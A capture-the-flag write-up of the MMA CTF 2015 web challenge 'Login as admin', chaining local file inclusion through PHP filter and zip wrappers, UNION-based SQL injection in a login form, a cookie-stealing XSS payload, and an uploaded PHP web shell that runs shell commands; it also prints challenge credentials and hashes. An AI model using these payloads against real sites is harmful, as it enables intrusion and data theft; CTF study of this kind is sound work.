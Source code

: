 
## MMA 1st CTF 2015 - Login as admin (Web 30)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 
This uploader deletes all /<\?|php/. So you cannot run php.

http://magiagents.chal.mmactf.link/
___
### Solution

We start by looking at the urls:
```
  http://magiagents.chal.mmactf.link/?page=home
  http://magiagents.chal.mmactf.link/?page=news
```
Probably an LFI. Let's try:
```
  http://magiagents.chal.mmactf.link/?page=settings
```

Page returns the settings page which is available after login. NULL byte is not allowed, here
but LFI is possible as we shouldn't have seen settings page. Let's try php wrappers:
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=home
```
Bingo! A base64 string is returned with the page:
```
PGRpdiBjbGFzcz0icGFnZS1oZWFkZXIiPjxoMT5Ib21lPC9oMT48L2Rpdj4KCjxpbWcgc3JjPSJtYWdpLmpwZyI+Cgo8P3
BocAppZiAoaXNzZXQoJF9TRVNTSU9OWyJhZG1pbiJdKSAmJiAkX1NFU1NJT05bImFkbWluIl0pIHsKICAgIGVjaG8gZmls
ZV9nZXRfY29udGVudHMoIi4uL2ZsYWciKTsKfQo=
```
We decode it and we get the page source:
```html
  <div class="page-header"><h1>Home</h1></div>

  <img src="magi.jpg">

  <?php
  if (isset($_SESSION["admin"]) && $_SESSION["admin"]) {
      echo file_get_contents("../flag");
  }
```
We can do the same for the rest files (the code for each file is in separete file):
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=settings
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=news
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=index
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=login
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=db
```
Now we have all the source. Is it an SQLi? We can't do sqli in signup as it has a strong filter,
but we can do it on signin:
```php
    $user = $_POST['user'];
    $password = $_POST["password"];    
    $db = connect_db();

    $results = $db->query("SELECT * FROM users WHERE (name = '$user' AND not banned)");
```

NOTE: if we open db.php we'll see this line: 
      mysqli_connect('localhost', 'magiagents', '6fc1401279387c561b891c2672b1b418', 'magiagents');
      However  mysql server is not accessible from outside (obviously!).

Let's start our SQLi. First we register a user fooo2:fooo2. Then we login as:
```
http://magiagents.chal.mmactf.link/login.php
  user=' or name='fooo2
  &password=fooo2
  &signin=
```
And we logged in as fooo2. Let's see how many columns exist in users table:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
The above query returns a blank page (as we cause an internal MySQL error), but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63,0x64 
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

Can login as fooo2. Nice! We know that there are 4 columns. We can identify columns names just
by looking source code: name, hashed_password, avator, banned.

Let's see what's going on the admins table. We assume that there are <=4 columns there.
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1)
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
This query gives an error, but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
Doesn't. Thus there's a single column in admins table. Let's make a guess for the name:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT name FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

As long as we don't get a blank page back, the only column in admins table is called name.

Then we try to login as admin:admin
```
  user=') UNION ALL SELECT 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997',0x63,0x64 
          UNION ALL (SELECT * FROM users WHERE name='
  &password=admin
```
We're logged in as admin but we can't get the flag:
```php
        $results = $db->query("SELECT * FROM admins");
        
        while ($row = $results->fetchArray()) {
            if ($row["name"] === $user) {
                $_SESSION["admin"] = true;
                break;
            }
        }
```

The reason is that $user will contain the whole SQLi string and not the username "admin".
However the above example returns an image with filename "c" (0x63). Now we have a path
to extract data from the DB. By replacing the 0x63 in the previous query with a SELECT
statement we get some useful data:
```
(SELECT group_concat(name) FROM admins)   ---> admin, asdf, m
(SELECT group_concat(name,hashed_password) FROM users WHERE name='admin' OR name='asdf' OR name='m')
--->  ffffffffffffffffffffffffffffffffffffffff, 
      5feba136aea0208ee7f522eb2de1b315eb828512,
      6b0d31c0d563223024da45691584643ac78c96e8
```
We can dump all usernames and hashes but this is not the point. From these hashes we can crack
only the last one which is 'm'. Then we login as m:m and we get the flag: 
**  MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd} **

___
I surprised from having a so simple username/password, and I contact the authors. They told me
that some else inserted that value, so this wasn't the correct way to solve it. Then I went back
and I was trying to solve it with the correct way. I looked for an injection in UPDATE, in order
to insert or change a row in admins table. This however wasn't possible as we have to craft an
injection statement that will be valid both in SELECT and in UPDATE. THe problem was the different
syntax and the extra "(" appeared in SELECT. We need a different way.

An XSS is possible but useless:
```
  user=' or /*<script>alert('xss:' + document.cookie)</script>*/ name='fooo2
  &password=fooo2
```

There's one thing that we miss all this time. The image upload. If we could upload a php file
then we could solve the challenge. The image checks are weak, so we can upload a php file. 
However this file won't have the .php extension. Let's go back to our LFI and see if we 
can do something else. From all the available wrappers, zlib is the most interesting.
zlib wrapper allow us to uncompress and execute a php file. This means that file doesn't
have to have the php extension. As zlib is for php 4 only, we'll use zip.

So, we login as fooo2:fooo2 and we upload a zip file, containing a foo.php file:
```
  <?php echo 'EXEC CODE</br>'; system( $_GET['cmd']) ?>
```
Then we upload the zip file which is stored at: avators/fooo22d555a4891d6ebc52e722f991855b25356b68333
zip wrapper usage is (http://php.net/manual/en/wrappers.compression.php): 
  zip://archive.zip#dir/file.txt

So we go back to our LFI and we try to access our file:
```
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=ls
```
Note that the file name is foo and not foo.php because index.php appends the .php extension:
```php
  <?php
    include("$page.php");
  ?>
```
We do an ls and we can access directory files:
  avators css db.php fonts home.php index.php js login.php logout.php magi.jpg news.php settings.php

Finally we get tha flag:
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=cat ../flag

**MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd}**
___